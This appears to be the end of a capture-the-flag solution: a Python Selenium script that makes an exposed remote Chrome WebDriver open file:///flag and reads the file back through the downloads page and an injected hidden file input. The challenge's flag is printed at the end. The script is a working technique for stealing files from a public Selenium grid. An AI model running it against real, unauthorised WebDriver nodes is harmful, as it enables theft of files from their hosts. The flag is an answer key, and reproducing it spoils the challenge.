 ```python
    options=chrome_options
)


# https://stackoverflow.com/questions/47068912/how-to-download-a-file-using-the-remote-selenium-webdriver
def get_downloaded_files(driver):
    if not driver.current_url.startswith("chrome://downloads"):
        driver.get("chrome://downloads/")

    return driver.execute_script(
        "return  document.querySelector('downloads-manager')  "
        " .shadowRoot.querySelector('#downloadsList')         "
        " .items.filter(e => e.state === 'COMPLETE')          "
        " .map(e => e.filePath || e.file_path || e.fileUrl || e.file_url); ")


def get_file_content(driver, path):
    elem = driver.execute_script(
        "var input = window.document.createElement('INPUT'); "
        "input.setAttribute('type', 'file'); "
        "input.hidden = true; "
        "input.onchange = function (e) { e.stopPropagation() }; "
        "return window.document.documentElement.appendChild(input); ")

    elem._execute('sendKeysToElement', {'value': [path], 'text': path})

    result = driver.execute_async_script(
        "var input = arguments[0], callback = arguments[1]; "
        "var reader = new FileReader(); "
        "reader.onload = function (ev) { callback(reader.result) }; "
        "reader.onerror = function (ex) { callback(ex.message) }; "
        "reader.readAsDataURL(input.files[0]); "
        "input.remove(); "
        , elem)

    if not result.startswith('data:'):
        raise Exception("Failed to get file content: %s" % result)

    return base64.b64decode(result[result.find('base64,') + 7:])


driver.get("file:///flag")  # From Dockerfile: COPY ./flag /flag

# list all the completed remote files (waits for at least one)
files = WebDriverWait(driver, 10, 1).until(get_downloaded_files)

# get the content of the first file remotely
content = get_file_content(driver, files[0])

# save the content in a local file in the working directory
with open('flag_ans', 'wb') as f:
    f.write(content)
```

Flag: `grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}`
